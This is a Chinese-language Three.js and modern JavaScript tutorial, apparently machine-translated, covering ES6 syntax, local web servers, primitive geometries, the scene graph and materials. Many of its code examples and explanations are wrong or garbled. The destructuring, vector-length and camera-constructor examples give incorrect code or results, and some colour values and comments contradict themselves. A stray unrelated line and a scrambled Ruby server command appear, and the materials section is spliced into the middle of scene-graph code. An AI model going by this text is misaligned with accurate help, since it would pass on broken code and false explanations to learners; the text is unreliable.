...
</head>
<body>
    ...
</body>
<script>
    // inline javascript
</script>
</html>
```

或者，您可以使用 `defer` 属性。

## 理解闭包如何工作

```javascript
function a(v) {
    const foo = v;
    return function() {
        return foo;
    };
}
const f = a(120);
const g = a(556);
console.log(f());  // prints 120
console.log(g());  // prints 556
```

上述代码中的函数 "a" 在每次被调用时都会产生一个新函数。该函数闭包在变量 "foo" 之上。

## 学习 this 如何运作

这不是魔术。它本质上是一个像参数一样自动提供给函数的变量。简单来说，当您像这样直接调用函数时：

```javascript
somefunction(d, e, f);
```

当您使用点运算符调用函数时，`this` 将为 null（在严格模式或模块中）。类似于这样：

```javascript
someobject.somefunction(d, e, f);
```

此时 `this` 将是 `someobject`。

回调函数是人们容易产生混淆的领域之一。

```javascript
const callback = someobject.somefunction;
loader.load(callback);
```

因为 `loader.load` 在调用回调函数时没有使用点运算符，所以 `this` 默认将为 null（除非 loader 明确将其设置为其他内容）。您必须通过将函数绑定，告知 JavaScript 当回调发生时 `this` 应该是 `someobject`。

```javascript
const callback = someobject.somefunction.bind(someobject);
loader.load(callback);
```

本文将对该函数进行详细解释。

## ES5/ES6/ES7 相关内容

ES5/ES6/ES7 中的 `var` 关键字已经过时。请使用 `const` 和/或 `let`。

没有任何理由使用 `var`。目前使用它也被认为是不良实践。如果变量永远不会被重新分配（大多数情况如此），请使用 `const`。在值会发生变化的情况下，请使用 `let`。这将有助于防止许多 Bug。

使用 `for(elem of Collection)`
“For of” 是新的，“for in” 是旧的；永远不要使用 `for(elem in collection)`。“for in” 存在的问题已由 “for of” 解决。

例如，您可以使用以下方式迭代对象的所有键值对：

```javascript
for (const [key, value] of Object.entries(someObject)) {
  console.log(key, value);
}
```

## 尽可能利用 FOREACH, MAP 和 FILTER

数组引入了 `forEach`、`map` 和 `filter` 函数，目前在 JavaScript 中被广泛使用。

### 使用解构赋值

假设一个对象具有以下尺寸：`width: 300, height: 150`。

早期的代码：
```javascript
const width = dims.width;
const height = dims.height;
```

现在的代码：
```javascript
const {width, height} = dims;
```

数组也可以被解构。考虑以下数组：`const position = [5, 6, 7, 1];`

旧代码：
```javascript
const a = position[3];
const b = position[4];
```

新代码：
```javascript
const [, a, b] = position;
```

### 函数参数也可以被解构

```javascript
const dims = {width: 400, height: 250};
const vector = [5, 6];

function lengthOfVector([a, b]) {
  return Math.sqrt(a * a + a * b);
}
const dist = lengthOfVector(vector);  // dist = 8

function area({width, height}) {
  return width * height;
}
const c = area(dims);  // c = 100000
```

### 对象声明中使用的简写代码

旧代码：
```javascript
const width = 400;
const height = 250;
```


```javascript
const obj = {
  width: wide,
  height: heigh,
  area: function() {
    return this.width * this.height
  },
};
```

新代码

```javascript
const width = 400;
const height = 250;
const obj = {
  width,
  height,
  area() {
    return this.width * this.height;
  },
};
```

## 使用展开运算符和剩余参数

可以使用剩余参数来接收任意数量的参数。例如：

```javascript
function log(className, ...args) {
  const elem = document.createElement('div');
  elem.className = className;
  elem.textContent = args.join(' ');
  document.body.appendChild(elem);
}
```

可以使用展开运算符将可迭代对象扩展为参数。

```javascript
const position = [4, 5, 6];
someMesh.position.set(...position);
```

```javascript
const copiedPositionArray = [...position];
copiedPositionArray.push(7); // [4, 5, 6, 7]
console.log(position); // [4, 5, 6] position 保持不变
```

## 或者合并对象

```javascript
const e = {efg: 678};
const f = {hij: 456};
const g = {...e, ...f};  // g 现在是 {efg: 678, hij: 456}
```

## 使用类 (Class)

在 ES5 之前，大多数程序员不熟悉创建类对象的语法。现在你可以在 ES6 中使用 `class` 关键字，这与 C++/C#/Java 的范式更为相似。

## 认识 Getter 和 Setter

在大多数当前语言中，Getter 和 Setter 非常普遍。ES6 的类语法使得它们的实现比以前简单得多。

## 尽可能使用箭头函数

这在处理回调函数和 Promise 时特别有用。

```javascript
loader.load((texture) => {
  // 使用 texture
});
```

它被绑定到创建该箭头函数时的上下文。

```javascript
const foo = (args) => {/* code */};
```

是以下代码的缩写：

```javascript
const foo = (function(args) {/* code */}).bind(this);
```

## 使用模板字面量

模板字面量使用反引号（backticks）代替引号。

```javascript
const foo = `template literal`;
```

模板字面量有两个主要特点。一是它可以跨多行。

```javascript
const foo = `template literal`;
const bar = `this
is
a
template
literal`;
```

在上面例子中，foo 和 bar 是一样的。另一个特点是你可以使用 `${javascript-expression}` 来退出字符串模式并输入 JavaScript 代码片段。这就是模板发挥作用的地方。

**示例：**

```javascript
const a = 150;
const b = 355;
const c = 84;
const rgbCSSColor = `rgb(${a},${b},${c})`;
```

或者

```javascript
const color = [150, 355, 84];
const rgbCSSColor = `rgb(${color.join(',')})`;
```

或者

```javascript
const aWidth = 20;
const bWidth = 30;
someElement.style.width = `${aWidth + bWidth}px`;
```

### 学习如何编写 JavaScript 代码

虽然你可以随心所欲地格式化你的代码，但有一个模式你应该遵循。在 JavaScript 中，所有变量、函数名和方法名都使用 lowerCamelCase（小驼峰命名法）。类的名称在构造函数中首字母大写。如果你遵循这个规则，你的代码将与大多数 JavaScript 代码兼容。许多 Linter（检查代码明显缺陷的程序）会在你使用错误的大小写时标记错误，因为只要你遵循上述模式，它们就能判断出你是否使用了错误的方式。

```javascript
const v = new vector(); // 如果所有
classes 都以大写字母开头，这显然是一个错误
const v = Vector();      // 如果所有
functions 都以小写字母开头，这显然是一个错误。
```

### Visual Studio Code 是一个不错的选择

显然，你可以使用任何你选择的编辑器，但如果你还没有尝试过，请尝试使用 Visual Studio Code 编写 JavaScript，并在之后配置 eslint。虽然配置可能需要一点时间，但它将极大地帮助你定位 JavaScript 中的错误。

## 环境搭建

在我们继续之前，让我们谈谈如何配置你的开发环境。特别是 WebGL，出于安全考虑，不能直接使用硬盘上的图像。这意味着你需要一个 Web 服务器来完成任何工作。幸运的是，搭建和使用开发 Web 服务器非常简单。

首先，你可以通过点击此链接下载完整站点。下载完成后，双击 zip 文件即可解压。

然后，选择一个简单的 Web 服务器。如果你需要图形界面，Servez 是一个带有用户界面的 Web 服务器。

## 停止或退出 Servez 以停止服务

另一个选项是如果你更喜欢命令行（像我一样），可以使用 node.js。下载并安装后，打开命令提示符/控制台/终端窗口。如果你在 Windows 上，请使用安装程序添加的专用“Node Command Prompt”。

然后通过输入以下命令安装 servez：

```bash
npm -g install servez
```

如果你在 OSX 上，请使用：

```bash
sudo npm -g install servez
```

完成后，输入：

```bash
servez path/to/folder/where/you/unzipped/files
```

或者如果你像我一样：

```bash
cd path/to/folder/where/you/unzipped/files
servez
```

如果没有指定路径，servez 将服务于当前文件夹。

## 安装

你可以使用 npm 和现代构建工具来安装 Three.js，或者可以使用静态托管或 CDN 来快速入门。对于大多数用户来说，使用 npm 安装是最佳选择。

无论你使用哪种方法，请保持一致，并从同一个库版本导入所有文件。混合使用来自多个源的文件可能会导致代码重复，或者可能导致应用程序意外崩溃。所有 Three.js 安装方法都依赖于 ES 模块，这允许你在最终项目中仅包含所需的库组件。

### 使用 npm 安装

在项目文件夹中打开终端窗口，输入以下命令安装 three npm 模块：

```bash
npm install three
```

它将下载并安装该包。然后按照以下方式将其导入到你的代码中：

选项 1：导入 Three.js 的完整核心库。

```javascript
import * as THREE from 'three';
const scene = new THREE.Scene();
```

选项 2：仅导入你需要的组件。

```javascript
import { Scene } from 'three';
const scene = new Scene();
```

通过 npm 安装时，你几乎总是会使用打包机制将项目所需的所有包合并到一个 JavaScript 文件中。虽然 Three.js 可以与任何当前的 JavaScript 打包工具一起使用，但 webpack 是最受欢迎的选择。

three 模块并不提供对所有功能的访问（也称为“裸导入”）。控件（Controls）、加载器（loaders）和后处理效果（postprocessing effects）等库中的其他热门部分必须从 `examples/jsm` 子目录中导入。

### CDN 安装或静态托管

在没有构建系统的情况下，你可以通过将文件上传到自己的 Web 服务器或使用现有的 CDN 来使用 Three.js 库。由于该库依赖于 ES 模块，每个使用它的脚本必须包含 `type="module"` 属性，如下所示。此外，还需要创建一个导入映射（Import Map）来解析 three 裸模块说明符。

```html
<script async src="https://unpkg.com/es-module-shims@1.3.6/dist/es-module-shims.js"></script>
<script type="importmap">
  {
    "imports": {
      "three": "https://unpkg.com/three@<version>/build/three.module.js"
    }
  }
</script>
<script type="module">
  import * as THREE from 'three';
  const scene = new THREE.Scene();
</script>
```

three 入口点不提供对所有功能的访问。控件、加载器和后处理效果都是该库中非常受欢迎的部分。

## 兼容 CommonJS 导入

尽管大多数最新的 JavaScript 打包工具都支持 ES 模块，但一些较旧的构建工具可能默认不支持。在某些情况下，你可能可以将打包工具设置为理解 ES 模块：例如，Browserify 仅需要 babelify 插件。

## Node.js

在 Node.js 中使用 Three.js 比较困难，原因有两个：

因为 Three.js 是一个 Web 框架，它依赖于浏览器和 DOM API，而这些 API 在 Node.js 中并不一定可用。其中一些问题可以通过利用 headless-gl 等垫片（shims）或自定义 TextureLoader 等组件来解决。其他 DOM API 可能与使用它们的代码紧密耦合，使得绕过它们更加困难。我们鼓励提交简单且可维护的 PR 来改进 Node.js 支持；不过，我们建议先开一个 issue 来讨论你的更改。

## 检查 WebGL 兼容性

尽管这个问题正变得越来越少，但某些设备或浏览器可能仍然无法处理 WebGL。如果不支持，
```

你可以使用以下方法来检查并向用户显示消息。在尝试渲染任何内容之前，将 https://github.com/mrdoob/three.js/blob/master/examples/jsm/capabilities/WebGL.js 添加到你的 JavaScript 中，并运行以下代码。

```javascript
if ( WebGL.isWebGLAvailable() ) {
  // Initiate function or other initializations here
  animate();
} else {
  const warning = WebGL.getWebGLErrorMessage();
  document.getElementById( 'container' ).appendChild( warning );
}
```

## 如何管理本地操作

如果你只使用程序几何体且不加载任何纹理，网站应该可以直接从文件系统运行；只需在文件管理器中双击 HTML 文件，它就会在浏览器中显示并正常工作（地址栏将显示 file:/yourFile.html）。

## 使用外部文件加载内容

由于浏览器的同源策略安全限制，如果从外部文件加载模型或纹理，从文件系统加载将会因安全异常而失败。

有两种替代方案可以应对这种情况：
- 在浏览器中，修改本地文件的安全设置。然后你可以使用以下 URL 查看页面：file:/yourFile.html
- 使用本地 Web 服务器来运行文件。然后你可以在 http://localhost/yourFile.html 访问你的页面

如果你选择方案 1，请注意使用同一浏览器进行常规在线浏览可能会使你暴露在安全漏洞中。为了安全起见，你可能希望创建一个独立的浏览器配置文件/快捷方式用于本地开发。让我们逐一查看每个选项。

## 远程服务器

许多编程语言都内置了 HTTP 服务器。虽然它们缺乏 Apache 或 NGINX 等生产服务器的功能，但对于测试你的 Three.js 应用程序应该 suffice。一些代码编辑器提供插件，可以自动启动基本服务器。

- Visual Studio Code 有多个服务器
- Visual Studio Code Live Server
- Atom's Live Server

## Serve

它是一个带有图形用户界面的基本服务器。

## Five-Server Node.js

它是一个支持实时重新加载的开发服务器。设置方法如下：

```bash
### Remove live-server (if you have it)
npm -g rm live-server
### Install five-server
npm -g i five-server
### Update five-server (from time to time)
npm -g i five-server@latest
```

要从本地目录运行，请键入：
`five-server -p 8000`

## Node.js 中的 Http-Server

Node.js 附带了一个简单的 HTTP 服务器包。设置方法如下：

```bash
npm install -g http-server
```

要从本地目录运行，请键入：

```bash
http-server -p 8000
```

## Python 服务器

如果你已安装 Python，应该能够从命令行（在你的工作目录中）运行以下命令：

```bash
### Python 2.x
python -m SimpleHTTPServer 8000
### Python 3.x
python -m http.server 8000
```

这将从当前目录在 localhost 的 8000 端口提供文件，也就是说，在地址栏中输入 `http://localhost:8000/`。

## Ruby 服务器

如果你安装了 Ruby，也可以获得相同的结果：

```ruby
webrick -e -r ruby "s = WEBrick::HTTPServer.new
trap('INT') { s.shutdown }; s.start( :Port => 8000,
:DocumentRoot => Dir.pwd); "
```

从 PHP 5.4.0 开始，PHP 内置了 Web 服务器：

```bash
php -S localhost:8000
```

## Lighttpd

Lighttpd 是一个极其轻量的通用 Web 服务器。我们将在 OSX 上使用 Homebrew 安装它。与这里提到的其他服务器不同，Lighttpd 是一个功能完善的生产服务器。

- 使用 Homebrew 安装：`brew install lighttpd`
- 在你希望启动 Web 服务器的位置，创建一个名为 `lighttpd.conf` 的配置文件。
- 在配置文件中，将 `server.document-root` 设置更改为你希望提供文件的目录。
- 使用 `lighttpd -f lighttpd.conf` 启动它。
- 访问 http://localhost:3000/ 查看你指定目录中的静态文件。

## IIS

如果你使用 Microsoft IIS 运行 Web 服务器，在加载之前，请为 .fbx 扩展名添加 MIME 类型设置。

| 文件扩展名 | MIME 类型 |
| :--- | :--- |
| .fbx | text/plain |

IIS 默认阻止下载 .fbx 和 .obj 文件。要允许下载这些文件类型，你必须设置 IIS。

### 基础

本节将解释 Three.js 中使用的所有基础知识。

### 基本几何体

Three.js 中有许多基本几何体。基本几何体是使用一组参数实时创建的 3D 形状。

例如，用于地球仪的球体或用于构建 3D 图表的一组盒子；基本几何体被广泛使用。基本几何体通常用于探索 3D 和入门。对于大多数 3D 应用程序来说，更常见的是让艺术家使用 Blender、Maya 或 Cinema 4D 等 3D 建模程序创建 3D 模型。

下面列出的许多基本几何体为其部分或全部参数提供了默认值，允许你根据需要使用更多或更少的参数。

### 立方体几何体

创建立方体时，将使用以下语法：

```javascript
const width = 5;  // ui: width
const height = 5;  // ui: height
const depth = 5;  // ui: depth
const geometry = new THREE.BoxGeometry(width, height, depth);

// OR

const width = 10;  // ui: width
const height = 10;  // ui: height
const depth = 10;  // ui: depth
const widthSegments = 5;  // ui: widthSegments
const heightSegments = 5;  // ui: heightSegments
const depthSegments = 5;  // ui: depthSegments
const geometry = new THREE.BoxGeometry(width, height, depth, widthSegments, heightSegments, depthSegments);
```

### 平面圆形

```javascript
const radius = 5;  // ui: radius
const segments = 20;  // ui: segments
const geometry = new THREE.CircleGeometry(radius, segments);

// OR

const radius = 5; // ui: radius
const segments = 20; // ui: segments
const thetaStart = Math.PI * 0.75; // ui: thetaStart
const thetaLength = Math.PI * 2.5; // ui: thetaLength
const geometry = new THREE.CircleGeometry(
    radius, segments, thetaStart, thetaLength);
```

### 实心圆锥

```javascript
const radius = 10; // ui: radius
const height = 12; // ui: height
const radialSegments = 20; // ui: radialSegments
const geometry = new THREE.ConeGeometry(radius,
    height, radialSegments);

 Congressional Budget Office

// OR

const radius = 10; // ui: radius
const height = 12; // ui: height
const radialSegments = 20; // ui: radialSegments
const heightSegments = 4; // ui: heightSegments
const openEnded = true; // ui: openEnded
const thetaStart = Math.PI * 0.55; // ui: thetaStart
const thetaLength = Math.PI * 2.5; // ui: thetaLength
const geometry = new THREE.ConeGeometry(
    radius, height,
    radialSegments, heightSegments,
    openEnded,
    thetaStart, thetaLength);
```

### 圆柱体

```javascript
const radiusTop = 6; // ui: radiusTop
const radiusBottom = 6; // ui: radiusBottom
const height = 12; // ui: height
const radialSegments = 14; // ui: radialSegments
const geometry = new THREE.CylinderGeometry(
    radiusTop, radiusBottom, height, radialSegments);

// OR

const radiusTop = 6; // ui: radiusTop
const radiusBottom = 6; // ui: radiusBottom
const height = 12; // ui: height
const radialSegments = 14; // ui: radialSegments
const heightSegments = 4; // ui: heightSegments
const openEnded = false; // ui: openEnded
const thetaStart = Math.PI * 0.5; // ui: thetaStart
const thetaLength = Math.PI * 2.5; // ui: thetaLength
const geometry = new THREE.CylinderGeometry(
    radiusTop, radiusBottom, height,
    radialSegments, heightSegments,
    openEnded,
    thetaStart, thetaLength);
```

### 十二面体

十二面体是一种具有 12 个面的多面体。

```javascript
const radius = 14; // ui: radius
const geometry = new THREE.DodecahedronGeometry(radius);

// OR

const radius = 14; // ui: radius
const detail = 7; // ui: detail
const geometry = new THREE.DodecahedronGeometry(radius, detail);
```

### 二维（2D）

```javascript
const width = 10; // ui: width
const height = 10; // ui: height
const geometry = new THREE.PlaneGeometry(width, height);

// OR

const width = 10; // ui: width
const height = 10; // ui: height
const widthSegments = 4; // ui: widthSegments
const heightSegments = 4; // ui: heightSegments
const geometry = new THREE.PlaneGeometry(
    width, height,
    widthSegments, heightSegments);
```


#### 中心有孔的2D圆盘

```javascript
const innerRadius = 4; // ui: innerRadius
const outerRadius = 10; // ui: outerRadius
const thetaSegments = 24; // ui: thetaSegments
const geometry = new THREE.RingGeometry(
    innerRadius, outerRadius, thetaSegments);

const innerRadius = 4; // ui: innerRadius
const outerRadius = 10; // ui: outerRadius
const thetaSegments = 24; // ui: thetaSegments
const phiSegments = 4; // ui: phiSegments
const thetaStart = Math.PI * 0.55; // ui: thetaStart
const thetaLength = Math.PI * 2.5; // ui: thetaLength
const geometry = new THREE.RingGeometry(
    innerRadius, outerRadius,
    thetaSegments, phiSegments,
    thetaStart, thetaLength);
```

#### 文本几何体

通过组合3D字体和字符串来创建3D文本。

```javascript
const loader = new THREE.FontLoader();
loader.load('.../resources/threejs/fonts/helvetiker_regular.typeface.json', (font) => {
    const text = 'three.js'; // ui: text
    const geometry = new THREE.TextGeometry(text, {
        font: font,
        size: 4, // ui: size
        height: 0.5, // ui: height
        curveSegments: 14, // ui: curveSegments
        bevelEnabled: true, // ui: bevelEnabled
        bevelThickness: 0.18, // ui: bevelThickness
        bevelSize: 0.5, // ui: bevelSize
        bevelSegments: 10, // ui: bevelSegments,
    });
    ...
});
```

#### 边缘几何体

一个辅助对象，它接受其他几何体作为输入，并且仅在面之间的角度超过某个阈值时才构造边缘。例如，当你观察顶部的盒子时，你会看到一条线贯穿每个面，该线表示组成盒子的每个三角形。通过使用EdgesGeometry，这些内部线条会被删除。如果你降低阈值角度（thresholdAngle），低于该阈值的边缘将会消失。

```javascript
const size = 10;
const widthSegments = 4;
const heightSegments = 4;
const depthSegments = 4;
const boxGeometry = new THREE.BoxGeometry(
    size, size, size,
    widthSegments, heightSegments, depthSegments);
const geometry = new THREE.EdgesGeometry(boxGeometry);
```

或者

```javascript
const radius = 10;
const widthSegments = 9;
const heightSegments = 5;
const sphereGeometry = new THREE.SphereGeometry(
    radius, widthSegments, heightSegments);
const thresholdAngle = 2;  // ui: thresholdAngle
const geometry = new THREE.EdgesGeometry(sphereGeometry, thresholdAngle);
```

#### 线框几何体

在指定的几何体中，WireframeGeometry为每条边生成一个包含两个点的线段的几何体。因为WebGL要求每个线段有两个点，如果不这样做，你经常会漏掉边缘或得到多余的边缘。如果你只有一个三角形，那么只有三个点。如果你试图使用`wireframe: true`的材质来绘制它，你只会得到一条线。通过将那个三角形几何体传递给WireframeGeometry，会创建一个包含三条线段和六个点的新几何体。

```javascript
const size = 10;
const widthSegments = 4;  // ui: widthSegments
const heightSegments = 4;  // ui: heightSegments
const depthSegments = 4;  // ui: depthSegments
const geometry = new THREE.WireframeGeometry(
    new THREE.BoxGeometry(
        size, size, size,
        widthSegments, heightSegments, depthSegments)
);
```

## 场景图

Three.js的场景图可能是其最重要的特性。在3D引擎中，场景图是一个图结构，其中每个节点代表一个局部区域。



让我们通过地球、太阳和月球轨道的例子来理解。地球在其轨道上绕太阳运行。地球绕月球公转（*原文此处应为月球绕地球公转，可能是笔误，但按原文翻译*）。月球围绕地球进行圆形运动。从月球的角度看，月球是在地球的“局部空间”内旋转。即使其相对于太阳的运动从月球视角看是某种奇怪的螺旋线般的曲线，月球也只需担心在其地球的局部空间内旋转。

换句话说，如果你生活在地球上，你不必考虑地球的自转或它绕太阳的公转。你只需行走、驾车、游泳或奔跑，就好像地球根本没有旋转或移动一样。即使你正以大约每小时1000英里的速度绕地球旋转，并以大约每小时67,000英里的速度绕太阳旋转，但你行走、驾车、游泳、奔跑和生活都在地球的“局部空间”中。你在太阳系中的位置类似于上面月球的位置，因此你无需担心。你只需关心你在地球“局部空间”中的位置。

让我们先慢慢来。假设我们想绘制太阳、地球和月球的示意图。我们将从太阳开始，简单地构建一个球体并将其放置在原点。*注意：我们正在演示如何使用太阳、地球和月球的场景图。*

```javascript
// 用于定义哪些对象的旋转需要更新的对象数组
const objects = [];
// 所有对象共用一个球体
const radius = 2;
const widthSegments = 12;
const heightSegments = 12;
const sphereGeometry = new THREE.SphereGeometry(
    radius, widthSegments, heightSegments);

const sunMaterial = new THREE.MeshPhongMaterial({emissive: 0xFFFF00});
const sunMesh = new THREE.Mesh(sphereGeometry, sunMaterial);
sunMesh.scale.set(4, 4, 4); // make the sun large
scene.add(sunMesh);
objects.push(sunMesh);
```

我们使用了一个多边形非常少的球体。赤道附近只有六个细分。这使得旋转清晰可见。因为我们将在所有对象上使用相同的球体，所以我们将太阳网格缩放为5倍。同时，我们也将phong材质的emissive（自发光）属性设置为黄色。Phong材质的emissive属性是当没有光线照射到表面时所绘制的颜色。该颜色会被赋予更多的光。我们还将向场景中心添加一个点光源。我们稍后会更详细地讨论点光源，但现在请知道点光源是从一个点发出的光。

```javascript
{
    const color = 0xAAAAAA;
    const intensity = 5;
    const light = new THREE.PointLight(color, intensity);
    scene.add(light);
}
```

我们将相机精确放置在原点正上方，向下看，以便更容易观察。`lookAt`函数是实现这一目标的最简单方法。`lookAt`函数将使相机朝向我们提供的位置。但首先，我们必须告知相机其顶部朝向哪个方向，即相机的“上方”是哪个方向。在大多数情况下，正Y轴方向向上就足够了，但因为我们正直直向下看，所以必须告诉相机正Z轴方向是“上”。

```javascript
const camera = new THREE.PerspectiveCamera(far, aspect, near, fov);
camera.position.set(0, 45, 0);
camera.up.set(0, 0, 2);
camera.lookAt(1, 1, 1);
```

这段代码基于之前的示例，在渲染循环中旋转我们`objects`数组中的所有对象。

```javascript
objects.forEach((obj) => {
  obj.rotation.y = time;
});
```

`sunMesh`现在会旋转了。我们现在来添加地球。

```javascript
const earthMaterial = new THREE.MeshPhongMaterial({color:0xff0000, emissive: 0x112244});
const earthMesh = new THREE.Mesh(sphereGeometry, earthMaterial);
earthMesh.position.x = 15;
scene.add(earthMesh);
objects.push(earthMesh);
```

我们创建了一个带有少量自发光蓝色的蓝色材质，使其在黑色背景上更显眼。为了创建一个`earthMesh`，我们使用了与之前相同的球体几何体，但应用了新的蓝色地球材质。我们通过将其向左移动15个单位（相对于太阳）将其添加到场景中。因为它被添加到了我们的`objects`数组中，它也会旋转。太阳和地球都会旋转，但地球不会绕太阳公转。让我们将地球设为太阳的子对象。

```javascript
scene.add(earthMesh);
sunMesh.add(earthMesh);
```

我们将`earthMesh`设为了`sunMesh`的子对象。通过`sunMesh.scale.set`，`sunMesh`的缩放被设置为6倍（6, 6, 6）。这意味着`sunMesh`的局部空间被放大了6倍。任何你放入那里的东西都会被乘以6。现在地球的大小是原来的6倍，并且它到太阳的距离（`earthMesh.position.x = 15`）也变成了6倍。

添加一个空的场景图节点来修复这个问题。太阳和地球都将成为该节点的子对象。

```javascript
const solarSystem = new THREE.Object3D();
scene.add(solarSystem);
objects.push(solarSystem);

const sunMaterial = new THREE.MeshPhongMaterial({emissive: 0xFFFF00});
const sunMesh = new THREE.Mesh(sphereGeometry, sunMaterial);
sunMesh.scale.set(6, 6, 6);
scene.add(sunMesh);
solarSystem.add(sunMesh);
objects.push(sunMesh);

const earthMaterial = new THREE.MeshPhongMaterial({color: 0xff0000, emissive: 0x112244});
const earthMesh = new THREE.Mesh(sphereGeometry, earthMaterial);
earthMesh.position.x = 15;
solarSystem.add(earthMesh);
objects.push(earthMesh);
```

我们在这里创建了一个`Object3D`。它和Mesh一样是场景图中的一个节点，只是它没有任何材质或形状。它只代表一个小区域。

`solarSystem`有两个子对象：`sunMesh`和`earthMesh`。这三个对象都在旋转，并且`earthMesh`不再被缩放6倍，因为它不再是`sunMesh`的子对象。情况好多了。地球的尺寸小于太阳，并且它既自转又绕太阳公转。让我们继续这个趋势，添加一个月球。

```javascript
const earthOrbit = new THREE.Object3D();
earthOrbit.position.x = 15;
solarSystem.add(earthOrbit);
objects.push(earthOrbit);

const earthMaterial = new THREE.MeshPhongMaterial({color: 0xff0000, emissive: 0x112244});
const earthMesh = new THREE.Mesh(sphereGeometry, earthMaterial);
```


## 材质

earthMesh.position.x = 15; // 注意，这个偏移量已经在其父级 THREE.Object3D 对象中设置了

earthOrbit.position.x = 15;

solarSystem.add(earthMesh);
earthOrbit.add(earthMesh);
objects.push(earthMesh);

const moonOrbit = new THREE.Object3D();
moonOrbit.position.x = 3;
earthOrbit.add(moonOrbit);

const moonMaterial = new THREE.MeshPhongMaterial({color: 0x00ff00, emissive: 0x222222});
const moonMesh = new THREE.Mesh(sphereGeometry, moonMaterial);
moonMesh.scale.set(.6, .6, .6);
moonOrbit.add(moonMesh);
objects.push(moonMesh);

我们添加了一些不可见的额外场景图节点。第一个是名为 earthOrbit 的新的 Object3D，它包含了 earthMesh 和 moonOrbit。然后将 moonMesh 添加到 moonOrbit 中。这就是新的场景图看起来是这样。<sup>10</sup>

为了展示场景图中的节点，通常绘制一些东西会很有用。Three.js 提供了一些辅助工具来帮助你完成这件事。AxesHelper 是一种坐标轴辅助工具。三条线分别代表局部的 A、B 和 C 轴。让我们在我们创建的每个节点上都放一个。

```
// 为每个节点添加 AxesHelper
objects.forEach((node) => {
    const axes = new THREE.AxesHelper();
    axes.material.depthTest = false;
    axes.renderOrder = 1;
    node.add(axes);
});
```

在我们的情况下，我们希望即使坐标轴在球体内部也能显示出来。为此，我们将它们材质的 depthTest 属性设置为 false，表示它们不会检查自己是否在其它东西的后面绘制。我们还将它们的 renderOrder 改为 1（从 0），使它们在球体之后显示。否则，球体可能会覆盖它们并将其遮挡。

因为有两组坐标轴重叠，其中一些可能难以看清。sunMesh 和 solarSystem 在同一个位置。earthMesh 和 earthOrbit 也在同一个位置。让我们为每个节点添加一些简单的控件，以便我们可以开关它们。我们也顺便添加另一个辅助工具 GridHelper。它在 X、Z 平面上创建一个 2D 网格。默认情况下网格是 10 × 10 单位。

我们还将使用 lil-gui，这是一个在 Three.js 项目中流行的 UI 框架。lil-gui 接受一个对象和该对象上的属性名，并根据属性类型创建一个 UI 来操作该属性。对于每个节点，我们都想创建一个 GridHelper 和一个 AxesHelper。每个节点都需要一个标签，所以我们将放弃旧的循环，而是调用一个方法来为该节点添加辅助工具。

```
// 为每个节点添加 AxesHelper
objects.forEach((node) => {
  const axes = new THREE.AxesHelper();
  axes.material.depthTest = false;
  axes.renderOrder = 1;
  node.add(axes);
});

function makeAxisGrid(node, label, units) {
  const helper = new AxisGridHelper(node, units);
  gui.add(helper, 'visible').name(label);
}

makeAxisGrid(solarSystem, 'solarSystem', 25);
makeAxisGrid(sunMesh, 'sunMesh');
makeAxisGrid(earthOrbit, 'earthOrbit');
makeAxisGrid(earthMesh, 'earthMesh');
makeAxisGrid(moonOrbit, 'moonOrbit');
makeAxisGrid(moonMesh, 'moonMesh');
```

`makeAxisGrid` 返回一个 AxisGridHelper，我们需要这个来让 lil-gui 满意。如上所述，lil-gui 会自动创建一个 UI 来操作对象的命名属性。根据属性类型，它会生成不同的 UI。由于我们希望它创建复选框，所以我们需要提供一个布尔属性。但是，我们希望坐标轴和网格根据单个属性同时显示或隐藏，所以我们将创建一个带有属性 getter 和 setter 的类。我们可以让 lil-gui 误以为它在修改单个属性，而内部实际上是在设置节点的 AxesHelper 和 GridHelper 的 visible 属性。

```
// 启用/禁用坐标轴和网格两者的可见性。
// 我们为 "visible" 创建 setter 和 getter，这可以告诉 lil-gui
// 去查看，因为 lil-gui 需要一个返回布尔值的属性
// 来决定是否创建复选框。

class AxisGridHelper {
  constructor(node, units = 10) {
    const axes = new THREE.AxesHelper();
    axes.material.depthTest = false;
    axes.renderOrder = 2;  // 在网格之后
    node.add(axes);

    const grid = new THREE.GridHelper(units, units);
    grid.material.depthTest = false;
    grid.renderOrder = 1;
    node.add(grid);

    this.grid = grid;
    this.axes = axes;
    this.visible = false;
  }

  get visible() {
    return this._visible;
  }

  set visible(v) {
    this._visible = v;
    this.grid.visible = v;
    this.axes.visible = v;
  }
}
```

需要注意的一点是，我们将 AxesHelper 的 renderOrder 设置为 2，GridHelper 的 renderOrder 设置为 1，这样坐标轴在网格之后绘制。否则，网格可能会覆盖坐标轴。

打开 solarSystem<sup>11</sup>，你会看到地球正好距离中心 15 个单位，正如我们上面设置的那样。你可以看到地球处于 solarSystem 的局部空间中。同样，如果你打开 earthOrbit，你会看到月球正好距离 earthOrbit 局部空间的中心三个单位。

这帮助我们理解场景图是如何工作的以及如何使用它们。创建 Object3D 节点并将对象作为它们的子级，是充分利用像 Three.js 这样的 3D 引擎的关键一步。看起来可能需要复杂的数学计算才能让物体以期望的方式移动和旋转。

例如，在没有场景图的情况下，计算月球的速度或将车轮相对于汽车车身的放置位置会相当困难，但有了场景图，这会变得相当容易。

这是 Three.js 系列的一部分。《Three.js 基础》是第一篇文章。如果你是 Three.js 的新手，你还没有看过的话应该从那里开始。Three.js 有多种材质可供选择。它们决定了场景中物体的外观。使用哪种材质主要取决于手头的任务。大多数材质属性有两种设置方式。我们已经从一开始就看到一种。

```
const material = new THREE.MeshPhongMaterial({
  color: 0xFF0000,    // 红色（这里也可以使用 CSS 颜色字符串）
  flatShading: true,
});
```

另一种是在创建之后进行设置。

```
const material = new THREE.MeshPhongMaterial();
material.color.setHSL(0, 1, .5);  // 红色
material.flatShading = true;
```

需要注意的是类型为 THREE.Color 的特性。Color 可以通过多种方式设置。

```
material.color.set(0x000000);     // 与 CSS 的 #RRGGBB 样式相同
material.color.set(cssString);     // 任何 CSS 颜色，例如 // 'rgb(255, 127, 64)', // 'hsl(180, 50%, 25%)'
material.color.set(someColor); // 其它某个 THREE.Color
material.color.setHSL(h, s, l); // 其中 h、s 和 l 均为 0 到 1
material.color.setRGB(r, g, b); // 其中 r、g 和 b 均为 0 到 1
```

你也可以在构造时传入十六进制数字或 CSS 字符串。

```
const m1 = new THREE.MeshBasicMaterial({color: 0x00ff00 }); // 绿色
const m2 = new THREE.MeshBasicMaterial({color: 'green'}); // 绿色
const m3 = new THREE.MeshBasicMaterial({color: '#F33'}); // 绿色
const m4 = new THREE.MeshBasicMaterial({color: 'rgb(0,255,0)'}); // 绿色
